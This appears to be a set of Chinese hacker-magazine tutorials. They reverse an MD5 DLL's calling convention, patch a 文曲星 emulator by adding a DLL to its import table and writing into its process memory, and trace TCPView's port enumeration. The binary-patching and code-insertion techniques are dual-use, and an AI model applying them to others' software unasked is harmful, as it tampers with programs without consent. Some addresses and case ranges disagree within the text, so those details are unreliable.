C编译时，函数名修饰约定规则为：__stdcall调用约定在输出函数名前加上一个下划线前缀，后面加上一个“@”符号和其参数的字节数，格式为_functionname@number。__cdecl调用约定仅在输出函数名前加上一个下划线前缀，格式为_functionname。__fastcall调用约定在输出函数名前加上一个“@”符号，后面也是一个“@”符号和其参数的字节数，格式为@functionname@number。它们均不改变输出函数名中的字符大小写，这和PASCAL调用约定不同，PASCAL约定输出的函数名无任何修饰且全部大写。

C++编译时函数名修饰约定规则为：__stdcall调用约定以“?”标识函数名的开始，后跟函数名；函数名后面以“@@YG”标识参数表的开始，后跟参数表；参数表以代号表示，X为void，D为char，E为unsigned char，F为short，H为int，I为unsigned int，J为long，K为unsigned long，M为float，N为double，_N为bool，……PA表示指针，后面的代号表明指针类型，如果相同类型的指针连续出现，以“0”代替，一个“0”代表一次重复。参数表的第一项为该函数的返回值类型，其后依次为参数的数据类型，指针标识在其所指数据类型前；参数表后以“@Z”标识整个名字的结束，如果该函数无参数，则以“Z”标识结束，其格式为“?functionname@@YG*****@Z”或“?functionname@@YG*XZ”。

__cdecl调用约定规则同上面的__stdcall调用约定，只是参数表的开始标识由上面的“@@YG”变为“@@YA”。__fastcall调用约定规则同上面的__stdcall调用约定，只是参数表的开始标识由上面的“@@YG”变为“@@YI”。VC++对函数的缺省声明是“__cdecl”，将只能被C/C++调用。

根据上面的介绍，并且从View Dependencies导出的符号形式，我们可以断定，MD5函数采取的名称修饰方式是C方式。这在编程的时候可以用下面的代码指出：

```c
#ifdef __cplusplus
extern "C"
{
#endif
函数声明……
#ifdef __cplusplus
}
#endif
```

采取上面的预编译方式，我们可以轻松编写出C名称修饰方式的函数，即便是在C++上面进行编译。

#### 调用规则

调用方式有很多种，比较常见的就是__stdcall以及__cdecl。__stdcall将参数压栈是按C语言的顺序（从右到左），但与C语言不同的是，它是由被调用者将参数从栈中清除的，所以它的编译文件比__cdecl小。__stdcall是Windows API函数中默认的调用约定，VB、VFP等也采用这个约定。__cdecl是C语言采用的默认调用方法，它的优点是支持printf这样的可变参数调用。

有了上面的基础，我们现在来逆向出MD5函数的调用方式。现在用View Dependencies已经不能看出什么端倪了，我们改用OD，用OD加载软件的主文件cryptocal.exe，那么要怎么获得这个文件对MD5函数的调用位置呢？在知道这个问题之前还有个问题要解决，那就是MD5函数是DLL文件当中导出的，如果主程序是用LoadLibrary加载相应模块，然后用GetProcAddress进行查找MD5函数的地址，而最终又用FreeLibrary释放这个模块，这种情况就比较棘手了，因为找准这个函数的调用时机就比较不容易了。如果对LoadLibrary下所有断点，最终的结果有可能到处都被截停，最终也很难找到关键点。如果是静态链接的话，一切就好办多了，我们直接在MD5下断点就OK了。所以现在得判断是静态链接还是动态调用，判断方法很简单，就是打开OD的查看模块，很幸运，我们发现了模块MD.dll，看来自静态链接，这就好办多了，直接在MD5函数下断所有断点，然后打开主程序的MD5生成界面，输入字符串“hokkien”，点击按钮后被断在DLL空间的MD5代码的第一行，此时注意观察堆栈窗口，如图1所示。


看到最上面的返回地址了吗？我们就直接转到004520DFH处，代码如下：

```asm
004520CF  68 6ED94500   push 0045D96E
; ASCII "hokkien"
004520D4  50            push eax
004520D5  68 6EF14500   push 0045F16E
004520DA  E8 D34E0000   call <jmp.&MD.MD5>
004520DF  68 6E214600   push 0046216E
```

004520DFH的代码不是类似“ADD ESP, N”形式的代码，所以，MD5函数的调用方式肯定不是C调用规则了，也就是__cdecl。那是不是__stdcall呢？答案还不知道，我们再研究下MD5内部代码吧。

```asm
10001E24  5D            pop ebp
10001E25  BE 00300010   mov esi,10003000
10001E2A  8B7D08        mov edi,[ebp+8]
10001E2D  56            push esi
10001E2E  B9 04000000   mov ecx,4
10001E33  F3:A5         rep movs dword ptr es:[edi],dword ptr [esi]
10001E35  5F            pop edi
10001E36  B9 36000000   mov ecx,36
10001E3B  33C0          xor eax,eax
10001E3D  F3:AB         rep stos dword ptr es:[edi]
10001E3F  61            popad
10001E40  C9            leave
10001E41  C2 0C00       retn 0C
```

```asm
10001E3D  F3:AB   rep stos dword ptr es:[edi]
10001E3F  61      popad
10001E40  C9      leave
10001E41  C2 0C00 retn 0C
```

看到0x10001E41H的“retn 0C”了吗？在函数内部调节堆栈，看起来调用方式确实是__stdcall了。好的，调用这个问题就圆满解决了。

#### 参数个数

这个问题比较简单，直接在调用函数的进栈操作中查看就能判断了，看下面的代码。

```asm
004520CF  68 6ED94500   push 0045D96E
; ASCII "hokkien"
004520D4  50            push eax
004520D5  68 6EF14500   push 0045F16E
004520DA  E8 D34E0000   call <jmp.&MD.MD5>
```

结果很明显，参数个数是3个。接下来我们应该判断这些参数的类型了。

#### 各个参数的原型

还是观察上面这段代码，第一个进栈的参数是hokkien，所以这个参数应该就是存放原始数据的指针了。第二个进栈的参数是什么呢？跟踪后你会注意到，eax刚好是hokkien的长度，所以这个也明显，就是这个参数是原始数据的长度。第3个进栈的是什么呢？不要着急，在内存数据窗口中转向0045F16E地址等待，然后执行“call <jmp.&MD.MD5>”这句代码后，再查看0045F16E的数据，发现这个地址的内容被改成一系列复杂的二进制数，哦，明白了，原来这个地址是接收加密数据的指针。好了，3个参数算是弄清楚了。但现在还有个小问题要解决，这个问题很重要，那就是参数的进栈顺序。上面我们说了，__stdcall进栈顺序是自右往左，也就是说最后进栈的是第一个参数，最先进栈的是最后一个参数，所以我们得到参数列表应该形如“(char* pstrOut, int nInStrLen, char* pstrIn)”。

#### 返回值

逆向返回值比较麻烦，而且带有偶然性以及猜测性，所以，返回值的判断有时候并不可靠，但如果经过大量的测试后获得稳定的数据，那这个返回值也是可以接受的。还是看下面这段代码。

```asm
004520CF  68 6ED94500  push 0045D96E
ASCII "hokkien"
004520D4  50           push eax
004520D5  68 6EF14500  push 0045F16E
004520DA  E8 D34E0000  call <jmp.&MD.MD5>
004520DF  68 6E214600  push 0046216E
```

004520DFH的代码没有对EAX，即MD5函数的返回值进行判断，所以我们无法得知MD5确切可能的返回值，但因为主程序中调用并没有利用其返回值对调用函数的成功与否进行判断，所以我们可以主观认为，MD5函数的返回值是不重要的，因而，大可以放心地下判断，MD5函数没有返回值！

上面对这5个问题已经一一击破了，接下来我们应该可以很容易还原MD5函数的原型了。激动人心的时刻到来了，下面就是我们写的MD5函数原型。

```c
void __stdcall MD5(char* pstrOut,int nInStrLen,char* pstrIn);
```

现在我们再来测试一下这个原型是否正确。

```c
#include <windows.h>
#include <string.h>
typedef void (__stdcall *FUN) (char* pstrOut,int nInStrLen,char* pstrIn);
void main()
{
    char* p="hokkien";
    HMODULE hModule=LoadLibrary("MD.dll");
    FUN f=(FUN)GetProcAddress(hModule,"MD5");
    char buf[40]={0};
    f(buf,strlen(p),p);
    MessageBox(0,buf,buf,0);
    FreeLibrary(hModule);
    return;
}
```

编译运行后居然跳出了乱码！难道错了？其实并没有错，因为buf存放的是二进制数字，而直接显示二进制数字当然出现乱码了。我们现在需要的是一个能将二进制转化为16进制字符串的函数，从而能够直观显示加密后的数字。

自己写一个吗？是可以，但不是最好的方法，还是从这个软件找吧。现在想想，既然软件能够把加密后的数字以16进制字符串显示出来，按照模块化思想，软件里面肯定有转化二进制为16进制的模块。好的，我们在调用MD5函数后查找，应该可以找到蛛丝马迹。很幸运，在下面的地方找到了。

```asm
004520DF : 68 6E214600  push 0046216E
; /Arg3
004520E4 : 6A 20        push 20
; |Arg2 = 00000020
004520E6 : 68 6EF14500  push 0045F16E
; |Arg1 = 0045F16E
004520EB : E8 8A210000  call 0045427A
; \cryptocq.0045427A
```

之后我们步入0045427A看一下。

```asm
0045427A  /$ 55         push ebp
0045427B  |. 8BEC       mov ebp,esp
0045427D  |. 83C4 FC    add esp,-4
00454280  |. 56         push esi
00454281  |. 57         push edi
00454282  |. 51         push ecx
00454283  |. 8B7D 08    mov edi,[ebp+8]
00454286  |. 8B75 10    mov esi,[ebp+10]
00454289  |. 8B4D 0C    mov ecx,[ebp+C]
0045428C  |. 33C0       xor eax,eax
0045428E  |. 8A07       mov al,[edi]
00454290  |. C1C8 04    ror eax,4
00454293  |. 3C 09      cmp al,9
00454295  |. 76 04      jbe short 0045429B
00454297  |. 04 37      add al,37
00454299  |. EB 02      jmp short 0045429D
0045429B  |> 04 30      add al,30
0045429D  |> 8806       mov [esi],al
0045429F  |. 46         inc esi
004542A0  |. 49         dec ecx
004542A1  |. 83F9 00    cmp ecx,0
004542A4  |. 74 16      je short 004542BC
004542A6  |. 32C0       xor al,al
004542A8  |. C1C0 04    rol eax,4
004542AB  |. 3C 09      cmp al,9
004542AD  |. 76 04      jbe short 004542B3
004542AF  |. 04 37      add al,37
004542B1  |. EB 02      jmp short 004542B5
004542B3  |> 04 30      add al,30
004542B5  |> 8806       mov [esi],al
004542B7  |. 46         inc esi
004542B8  |. 47         inc edi
004542B9  |. 49         dec ecx
004542BA  |. 75 D0      jnz short 0045428C
004542BC  |> 33C0       xor eax,eax
004542BE  |. 59         pop ecx
004542BF  |. 5F         pop edi
004542C0  |. 5E         pop esi
004542C1  |. C9         leave
004542C2  \ C2 0C00     retn 0C
```

这段代码还是比较长的，自己写来肯定不容易。按照我们上面的思想，可以得出这个函数的原型为：

```c
void __stdcall BinToHexStr(char* pstrIn,int nInLen,char* pOutBuf);
```

有了上面的代码，现在就可以用VC写一段显示MD5加密的小软件了。代码如下：

```c
#include <windows.h>
#include <string.h>
typedef void (__stdcall *PFUN) (char* pstrOut,int nInStrLen,char* pstrIn);

void main()
{
    char* p="h0kkien";
    HMODULE hModule=LoadLibrary("MD.dll");
    PFUN f=(PFUN)GetProcAddress(hModule,"MD5");
    char buf[40]={0};
    f(buf,strlen(p),p);
    char buff[80]={0};
    __asm
    {
        lea eax,buff
        push eax
        push 32
        lea eax,buf
        push eax
        call HERE
    }
    MessageBox(0,buff,buff,0);
    FreeLibrary(hModule);
    return; // 注意这个！千万不能丢！不然会错！
HERE:
    __asm{
        push ebp
        mov ebp, esp
        add esp, -4
        push esi
        push edi
        push ecx
    }
}
```

```asm
mov edi, [ebp+0x08]
mov esi, [ebp+0x10]
mov ecx, [ebp+0x0c]
L009: xor eax,eax
      mov al,[edi]
      ror eax,4
      cmp al,9
      jbe L016
      add al,0x37
      jmp L017
L016: add al,0x30
L017: mov [esi],al
      inc esi
      dec ecx
      cmp ecx,0
      je L034
      xor al,al
      rol eax,4
      cmp al,9
      jbe L028
      add al,0x37
      jmp L029
L028: add al,0x30
L029: mov [esi],al
      inc esi
      inc edi
      dec ecx
      jnz L009
L034: xor eax,eax
      pop ecx
      pop edi
      pop esi
      leave
      ret 12
```

这段代码必须注意的是“return;”千万不能丢，否则就会出错。下载编译运行看看，结果如图2所示。


怎么样，很不错吧？文章到这里就结束了，如果大家还有什么疑问，欢迎登录黑防论坛与我讨论，我们共同进步提高！

前置知识：C、汇编  
关键词：破解、文曲星模拟器、存档补丁


## 打造文曲星NC3000模拟器点金存档补丁

文／图 陈浩

最近想重温文曲星上的一个经典 GMUD 游戏《白金英雄坛》，便去文曲星官网下载了一个文曲星 NC3000 模拟器。这个模拟器从外观和功能上和真正的 NC3000 区别很小，但有一个致命的缺点：模拟器每次退出时游戏存档都会消失。而实际的文曲星则会将存档保存在自己的物理闪存中，关机不会消失，除非断电时间过长。想重温经典又没钱去买一个文曲星，看来只有自己动手打造一个存档补丁了。

#### 分析与测试

首先要知道，文曲星也相当于一个小计算机，工作原理和电脑没有多大区别。在文曲星上玩游戏时，游戏先检测是否有旧存档，如果有，则加载旧存档，否则在 sysdir 目录下新建一个 gmud.sav 文件，即游戏的存档。由于模拟器是运行在电脑内存中的，所以模拟器用到的内存也在电脑的内存中；当模拟器退出时释放被分配的内存，存档自然就没有了。这里我没有仔细分析如何在模拟器上新建文件，毕竟它不是实体，而且不同于电脑的文件操作。在文曲星上运行的程序有其自己的文件格式，但是其可执行程序用到的内存最终还是在电脑的内存里面。下载的模拟器压缩包里面有两个重要的 bin 文件：obj.bin 和 nd.bin，这是文曲星上的可执行文件格式，相当于电脑上的 exe 文件格式。另外还有一个 wqxsim.exe 文件，就是模拟器的主程序，它的作用就相当于文曲星的操作系统，解释执行 bin 文件，并在电脑上显示结果。说白了，就相当于我们电脑上的 XP、Vista 等操作系统执行 exe 等格式文件。了解了这些，下面我们就可以使用工具进行分析了。

运行模拟器，出现“是否清除闪存”时，选择“不”（这个不重要，最好每次选择都一样，便于分析），然后点两次“PDA”按钮。打开 WinHex，选择“工具”，点击“打开 RAM”，选择 wqxsim.exe 进程，再选择 wqxsim.exe 模块，在数据开始和末尾处分别使用“Alt+1”和“Alt+2”选择选块的头和尾，再按 Ctrl+Shift+N（菜单“编辑”下的“全部复制”项），将选块置入新文件，命名为 1.dat，然后切换到模拟器，进入游戏，新建人物，名字随便输入，如 aaaaaa，密码可有可无。此时游戏会自动创建一个初始存档，退出游戏（分析过程中不能退出模拟器程序，因为退出后存档就没有了），仍然回到最初的界面（文曲星也有自己的显存，当然这个显存内容，也就是屏幕显示的内容，也在电脑内存里面，为减少分析量，尽量使这部分相同），切换到 WinHex，这时的数据内容已经和开始不同了，将新的数据按上面的步骤置入到文件 2.dat，然后选择“工具->文件工具->比较”，选择 1.dat 和 2.dat，WinHex 会生成一个报告。分析表明差异部分主要集中在两大块，这里我们不分析由于建立 gmud.sav 文件引起的内部文件目录的变化，只找存档的位置。发现 003e0400（地址 A）和 04679810（地址 B）处有连续差异，原来的 B 处是文曲星的 sysdir 目录，现在的数据和地址 B 处的一样，再进入游戏，存档后退出（由于存档含有游戏时间，故不存在完全相同的存档），仍然回到最初的界面，再复制数据到 3.dat，比较，这次可以发现 003e4600（地址 C）处有连续差异了，地址 A 处不变，B 处内容变成了和 C 处一样。如此重复多次，得出如下规律：第 N 次手动存档并退出游戏后，A+N*HEX(4200)（地址 D）处便会有新的 288 字节的数据产生，B 处的内容总和 D 处的内容相同。于是可以直接断定 D 处保存着最新存档，B 处的 288 字节内容始终和最新存档相同（N 超过一定值后，新存档可能从地址 A 开始覆盖旧的存档，因为文曲星内存有限，我大致算了一下，一次游戏当中存 100 个文档应该还不至于开始覆盖 A 处内容，或者游戏本身就确定了存多少个档后开始覆盖 A 处存档）。奇怪的是游戏并没有提供选择读取旧存档的功能，每次进入游戏都载入最后的存档，故尝试用不同的存档分别替换 A+N*HEX(4200) 和 B 处的存档，如果替换后游戏显示的是用来替换的存档，就表明我们要做的补丁的工作内容就确定了。这里我用主角名字为 bbbbbbb 的有效存档来分别替换 D 和 B 处的内容（按照上面讲过的选块的方法选择“复制 16 进制数据”，复制出 288 字节的存档，然后点击想粘贴的位置，选择“编辑->剪贴板数据->写入”，点击确定即可），结果发现只需要替换 D 处的存档即大功告成。

经多次分析和实验，确定补丁按如下规律工作：

- 1）电脑上没有保存过存档文件时，玩家进入游戏，创建人物，然后开始玩，退出模拟器之前可以存档，将最新存档保存到电脑上，即补丁将 B 处的 288 字节内容以二进制文件形式保存在电脑上。
- 2）电脑上已经有了存档文件时，就先进入游戏，随便建立人物，然后退出（这一步是让模拟器自己建立游戏的存档目录，由于模拟器的特殊性，本文并不分析如何在模拟器里创建目录和文件，所以此步不能跳过）。这时玩家可以选择加载存档，即补丁要读取上次保存的二进制文件的 288 字节内容，将之写入到 A 处，替换游戏自动生成的初始存档，然后进入游戏后即可继续上次的游戏之旅，之后就可以随时存档。

看起来补丁要做的很少，其实上面的分析过程和下面要介绍的补丁的编写以及模拟器程序的执行流程修改才是重点和最耗时间的部分。这里借用了黑防 2006 年第 8 期《为任意 EXE 插入 SplashScreen》一文的思路：他写了一个 SplayScreen.dll，添加一个名为 Dummy 的空函数，并且在 SplayScreen.dll 的入口部分选择在被加载时显示一个启动界面，然后给被加入启动界面的程序添加一个导入函数 Dummy，即使得该程序在启动时加载 SplayScreen.dll，从而实现给该程序插入启动界面。而我则是让 wqxsim.exe 启动时加载我写的 SplayScreen.dll，并且还要在合适的时机调用 SplayScreen.dll 里的 LoadSave() 和 ExitAndSave() 函数（下面会有介绍），从而实现步骤 2 和 1 的功能。

#### 编写补丁

有了解决问题的思路，下面来编写 SplayScreen.dll，我写的关键代码如下（说明：由于写代码的时候直接打开《为任意 EXE 插入 SplashScreen》一文附带的 C 工程进行修改，用不到的部分没有删掉，名字也没改）。

```c
#include "stdafx.h"
#include "winuser.h"
#include "string.h"
#include "ctype.h"
#include "stdio.h"
#include "stdlib.h"
#define BaseAddr1 0x04679810
#define BaseAddr2 0x03ef0400
#define PROCESS_ALL_ACCESS 0x1F0FFF
// 设置打开进程的方式为全部
char AppName[]="SplayScreen.dll";
char AppPath[255]=""; // 全目录
char AppPathS[255]=""; // 当前目录
char SaveFilePath[255]=""; // 存档目录
char SaveFileName[]="Hero.dat";
char WndName[]="文曲星仿真器";
char WndCls[]="winmain";
char WqxSave[288];
int Pos;
FILE *fp;
HWND hWnd; // 文曲星窗口句柄
DWORD dwx; // 存放PID
```

```c
HANDLE hProc; // 打开的进程句柄
// ...
int strinsr(char* str1[])
{
    int i;
    for(i=254;i>0;i--)
        if(str1[i]=='\\') break;
    return (i);
}

int ExitAndSave()
{
    hWnd=FindWindow(WndCls,WndName);
    GetWindowThreadProcessId(hWnd,&dwx);
    hProc=OpenProcess(PROCESS_ALL_ACCESS,FALSE,dwx);
    ReadProcessMemory(hProc,(void*)BaseAddr1,(void*)&WqxSave,288,NULL);
    CloseHandle(hProc);
    if((fp=fopen(SaveFilePath,"wb"))!=NULL)
    {
        fwrite(WqxSave,288,1,fp);
        fclose(fp);
    }
    return 0;
}

int LoadSave()
{
    if((fp=fopen(SaveFilePath,"rb"))!=NULL)
    {
        fread(WqxSave,288,1,fp);
        fclose(fp);
    }
    hWnd=FindWindow(WndCls,WndName);
    GetWindowThreadProcessId(hWnd,&dwx);
    hProc=OpenProcess(PROCESS_ALL_ACCESS,FALSE,dwx);
    WriteProcessMemory(hProc,(void*)BaseAddr2,(void*)&WqxSave,288,NULL);
    CloseHandle(hProc);
    return 0;
}

BOOL APIENTRY DllMain(HANDLE hModule,DWORD fdwReason,LPVOID lpReserved)
{
    switch(fdwReason)
    {
        // ...
    }
}
```

```c
case DLL_PROCESS_ATTACH:
// 当 DLL 被加载时
{
    // 得到当前模块的完整路径
    GetModuleFileName(NULL,AppPath,255);
    Pos=strinsr(AppPath);
    // 得到模块所在目录
    strncpy(AppPathS,AppPath,Pos+1);
    // 生成存档文件保存目录
    strcpy(SaveFilePath,strcat(AppPathS,SaveFileName));
}
break;

case DLL_PROCESS_DETACH:
{
}
break;

return TRUE;
```

编译成功后生成 **SplayScreen.dll**。打开 LordPE，选择“PE 编辑器”，载入刚编译好的 SplayScreen.dll，在“目录”中查看“输出表”，注意这里应查看 DLL 的导出函数表（而非为 EXE 增加导入时的项），如图 1 所示。

| 序号 | RVA | 偏移 | 函数名 |
|---|---|---|---|
| 0001 | 0000101F | 0000101F | DummFunc |
| 0002 | 00001005 | 00001005 | ExitAndSave |
| 0003 | 0000100F | 0000100F | LoadSave |

图 1

分别记下 ExitAndSave 和 LoadSave 的偏移地址 00001005 与 0000100F。后续在代码中调用这两个函数即可实现存档保存与读取。再按“为任意 EXE 插入 SplashScreen”一文的方法，用 LordPE 给 wqxsim.exe 加入新编译的 SplayScreen.dll 中的导出函数即可。

#### 模拟器修改

下面来解决时机的选择问题，这里我直接用了如图 2 所示的在模拟器界面上右键单击后弹出的原始菜单。经逐个尝试，“求助”项对应的调用过程需要用记事本打开 DOC 文档，入栈参数多，修改返回时容易引起异常，导致程序出错；“退出”项是模拟器的正常功能，改得不好就只能用任务管理器来结束模拟器进程了（程序禁用了 Alt+F4 和任务栏右键）。剩下的“下载”、“显示成小界面”两项对应的调用过程最适合修改执行流程并且副作用最小，“版本信息”这一项主要调用了 DialogBoxParamA 来显示一个版本信息。


用 OD 打开刚添加过导入函数的 wqxsim.exe，在入口点停下后，右键选择查看，选择模块 SPlayScreen，会跳到 SplayScreen.dll 开头的 10001000 处，该处代码如下（加 // 号的为自己添加的注释，分号为 OD 自己加的）。

```asm
10001000  CC            INT3
10001001  CC            INT3
10001002  CC            INT3
10001003  CC            INT3
10001004  CC            INT3
10001005 > E9 A6000000  JMP SplayScr.100010B0
// 跳到ExitAndSave函数的入口
1000100A  E9 C1050000   JMP SplayScr.100015D0
1000100F > E9 0C020000  JMP SplayScr.10001220
// 跳到LoadSave函数的入口
10001014  E9 37000000   JMP SplayScr.10001050
10001019  E9 02040000   JMP SplayScr.10001420
1000101E > E9 9D030000  JMP SplayScr.100013C0
10001023  CC            INT3
10001024  CC            INT3
```

由上面记下的两个地址知道，10001005 处是跳向 ExitAndSave 函数的入口，即 100010B0，1000100F 是跳向 LoadSave 函数的入口，即 10001220。等会修改的时候，直接 CALL 到这两个地址即可，注意是 CALL 而不是 JMP，因为 CALL 有一个当前 EIP 入栈的操作，而 JMP 没有，用 JMP 的话，在函数过程中 RET 时要出错。Alt+F9 回到程序领空，在命令窗口输入“bpx a”显示所有函数调用，在右键菜单中选择版本信息的时候找到 DialogBoxParamA，右键选择“在所有调用 DialogBoxParamA 处设置断点”，总共有 4 处调用，然后 F9 运行程序，一路运行正常，直接切换到模拟器界面，选择不清除闪存，然后右键选择“版本信息”，程序断在 0041672F 处，向上查看一下，代码如下：

```asm
00416716    81C4 74040000    ADD ESP,474
0041671C    C2 1000         RETN 10
0041671F >  8B0D 08366904   MOV ECX,DWORD PTR DS:[4693608]
; Case 9C50 of switch 00415FE8
00416725    55              PUSH EBP ; /Param
00416726    68 20554100     PUSH wqxsim(.00415520 ; DlgProc = wqxsim(.00415520
0041672B    55              PUSH EBP ; hOwner
0041672C    6A 6D           PUSH 6D ; pTemplate = 6D
0041672E    51              PUSH ECX ; hInst => NULL
0041672F    FF15 50D34200   CALL DWORD PTR DS:[<&USER32.DialogBoxParamA>] ; \DialogBoxParamA
00416735    33C0            XOR EAX,EAX
; 右键菜单选择“版本信息”时
00416737    5F              POP EDI
00416738    5E              POP ESI
00416739    5D              POP EBP
0041673A    5B              POP EBX
0041673B    81C4 74040000   ADD ESP,474
00416741    C2 1000         RETN 10
// 下面为“显示成小界面”分支
00416744 >  8A15 04376904   MOV DL,BYTE PTR DS:[4693704]
; Case 9C51 of switch 00415FE8
```

```asm
00415FD8    C2 1000         RETN 10
00415FDB >  8B9424 90040000 MOV EDX,DWORD PTR SS:[ESP+490]
; Case 111 (WM_COMMAND) of switch 00415569
00415FE2    81E2 FFFF0000   AND EDX,0FFFF
00415FE8    8D82 BE63FFFF   LEA EAX,DWORD PTR DS:[EDX+FFFF63BE]
; Switch (cases 9C42..9C53)
00415FEE    83F8 11         CMP EAX,11
00415FF1    0F87 4A0B0000   JA wqxsim(.00416B41)
00415FF7    FF2485 B86B4100 JMP DWORD PTR DS:[EAX*4+416BB8]

00415FFE  > 8B9C24 88040000  MOV EBX,DWORD PTR SS:[ESP+488]

;Case 9C42 of switch 00415FE8
00416005  C705 14366904  MOV DWORD PTR DS:[4693614],2
0041600F  53  PUSH EBX
00416010  E8 7B260000  CALL wqxsim(00418690)
```

同样向上查看一下，看到了 OD 在 00415FE8 一行给出的注释“Switch (cases 9C42..9C63)”，就晓得这是分支处理的开始了，接下来逐个实验一番后，得到“下载”项和“显示成小界面”项的分支处理地址分别为 004164FD 和 00416744。两处代码分别如下：

```asm
004164FA  C2 1000  RETN 10
;下面为“下载”分支
004164FD  > 8B8C24 88040000  MOV ECX,DWORD PTR SS:[ESP+488]
;Case 9C52 of switch 00415FE8
00416504  51  PUSH ECX
00416505  E8 96220000  CALL wqxsim(00418730)
0041650A  8B15 DC9B4400  MOV EDX,DWORD PTR DS:[449BDC]
00416510  83C4 04  ADD ESP,4
00416513  52  PUSH EDX
;lpOpenFileName => wqxsim(046936A8)
00416514  E8 E7EB0000  CALL <JMP.&comdlg32.GetOpenFileNameA>
00416519  85C0  TEST EAX,EAX
0041651B  0F84 20060000  JE wqxsim(00416B41)
00416521  A1 DC9B4400  MOV EAX,DWORD PTR DS:[449BDC]
...
0041673B  81C4 74040000  ADD ESP,474
00416741  C2 1000  RETN 10
;下面为“显示成小界面”分支
00416744  > 8A15 04376904  MOV DL,BYTE PTR DS:[4693704]
;Case 9C51 of switch 00415FE8
0041674A  80F2 01  XOR DL,1
0041674D  8815 04376904  MOV BYTE PTR DS:[4693704],DL
00416753  8B9424 88040000  MOV EDX,DWORD PTR SS:[ESP+488]
0041675A  52  PUSH EDX
0041675B  E8 10050000  CALL wqxsim(00416C70)
00416760  83C4 04  ADD ESP,4
00416763  33C0  XOR EAX,EAX
00416765  5F  POP EDI
00416766  5E  POP ESI
```

```asm
00416767  5D  POP EBP
00416768  5B  POP EBX
00416769  81C4 74040000  ADD ESP,474
0041676F  C2 1000  RETN 10
```

下载分支 00416519 处是检测玩家是否在 GetOpenFileNameA 函数创建的公共对话框中选择了文件，如果直接在这个对话框里面点击“取消”按钮，则返回 0，跳转到 00416B41（见 0041651B 处）。进行修改，由于我要 NOP 掉这个函数调用（这个下载功能形同虚设，没啥用的，就 NOP 掉了），一般修改函数调用时要顾及上下范围，最好从它的第一个参数入栈的地方起到调用返回处理 EAX 为止，这样才不会对正常的堆栈造成影响，没处理好的话程序十有八九会挂掉。修改后如下（打 # 号的行，这里刚刚好能插入完用到的代码）：

```asm
004164FD > E8 AEABBE0F  CALL SplayScr.100010B0

;Case 9C52 of switch 00415FE8 //##########
00416502  EB 10  JMP SHORT wqxsim(00416514)
//########
00416504 > E8 17ADBE0F  CALL SplayScr.10001220
// 选择“显示成小界面”分支时在分支入口跳到这里，执行LoadSave函数
00416509  8A15 04376904  MOV DL,BYTE PTR DS:[4693704]
// 预先从分支入口转过来的原始代码，因为分支入口修改后该代码被覆盖掉了
0041650F  E9 36020000  JMP wqxsim(0041674A)
// 跳到原分支逻辑继续运行
00416514 > B8 00000000  MOV EAX,0
//########## 直接将EAX置0
00416519  85C0  TEST EAX,EAX
0041651B  0F84 20060000  JE wqxsim(00416B41)
```

下面修改分支“显示成小界面”处，即 00416744 处，将分支入口处代码保存到原来的调用 GetOpenFileNameA 函数处，因为该处函数调用不再需要了，然后将 00416744 处修改如下：

```asm
00416744  ^ E9 BBFDFFFF  JMP wqxsim(00416504)
;Case 9C51 of switch 00415FE8 // 这里就改了这一行
00416749  90  NOP
0041674A  > 80F2 01  XOR DL,1
// 由0041650F处调回来继续执行
0041674D  8815 04376904  MOV BYTE PTR DS:[4693704],DL
00416753  8B9424 88040000  MOV EDX,DWORD PTR SS:[ESP+488]
```

### 前置知识：汇编

关键词：破解，TCPView，端口枚举


## TCPView端口枚举机制

文／图 Leminis

本着学习的目的，我逆向了 Mark 编写的 TCPView，想看看是怎么实现在 Ring3 下枚举端口信息的，于是就有了本文。

下载 TcpView v2.34 汉化版后，用 IDA 加载，开始分析。首先在 IDA 中查看 TCPView 的函数，看是否有 IDA 自动从网上下载符号后能识别出来的函数。结果找到了如图1所示的一个函数 WinMain()，它是 Windows API 编程的标准入口函数。我们就从这个函数下手，看看能发现什么。


在 WinMain 的入口处，可以看到如下的代码：

```asm
.text:004068AA  push esi
.text:004068AB  push edi
.text:004068AC  push eax ; lpWSAData
.text:004068AD  push 101h ; wVersionRequested
.text:004068B2  call WSAStartup
.text:004068B7  test eax,eax
.text:004068B9  jz short loc_4068D6
.text:004068BB  push offset a1_0
```

编写 Socket 应用程序时，在调用其他的网络 API 函数之前，一般都要调用 WSAStartup 这个函数。看来找对地方了。我们继续往下看。

在代码“jz short loc_4068D6”处开始判断调用 WSAStartup 是否成功。我们跳转到“short loc_4068D6”处看看，代码如下：

```asm
.text:004068D6  push offset aSedebugprivile
; "SeDebugPrivilege"
.text:004068DB  call AddPrivilege
.text:004068E0  add esp, 4
.text:004068E3  call sub_406660
.text:004068E8  test al, al
```

这段代码给程序增加了 SeDebugPrivilege 调试权限，其下的函数 sub_406660 暂不知道功能为何。继续往下看，代码如下：

```asm
.text:0040691A mov ecx, [esp+1B4h+nCmdShow]
.text:00406921 push ecx ; nCmdShow
.text:00406922 push esi ; hInstance
.text:00406923 call sub_4067C0
......
.text:00406943 call ds:LoadAcceleratorsA
.text:00406949 mov ebp, ds:GetMessageA
.text:0040694F push 0 ; wMsgFilterMax
.text:00406951 push 0 ; wMsgFilterMin
.text:00406953 lea edx, [esp+1C0h+Msg]
.text:00406957 push 0 ; hWnd
.text:00406959 push edx ; lpMsg
.text:0040695A mov esi, eax
.text:0040695C call ebp ; GetMessageA
......
.text:00406963 mov ebx, ds:TranslateAcceleratorA
......
.text:00406970 call ebx ; TranslateAcceleratorA
......
.text:00406986 call ds:DispatchMessageA
......
.text:00406997 call ebp ; GetMessageA
.text:00406999 test eax, eax
.text:0040699B jnz short loc_406969
.text:0040699D pop ebx
```

这段代码都是标准的 API 编程中必须的。进入“call sub_406710”发现这个函数里注册的窗口类均和网络无关，我们将其中找到的窗口消息处理函数标示为 WndProc。之后的函数都是标准的 API 消息循环使用的函数。再回头看看“call sub_406660”的调用函数，可以找到如下代码：

```asm
.text:00406660 push esi
.text:00406661 push edi
.text:00406662 mov edi, ds:LoadLibraryA
.text:00406668 push offset aAllocateandget ; "AllocateAndGetTcpExTableFromStack"
.text:0040666D push offset LibFileName ; "iphlpapi.dll"
.text:00406672 call edi ; LoadLibraryA
.text:00406674 mov esi, ds:GetProcAddress
.text:0040667A push eax ; hModule
.text:0040667B call esi ; GetProcAddress
.text:0040667D test eax, eax
.text:0040667F mov pTCPFun, eax
```

这段代码用于加载 iphlpapi.dll 动态链接库，通过 GetProcAddress 获取一个名字为 AllocateAndGetTcpExTableFromStack 的函数地址。通过网上查找，发现 iphlpapi.dll 是 Windows 系统自带的 Windows IP 辅助 API 应用程序接口模块。看来函数 sub_406660 就是处理网络相关的了。

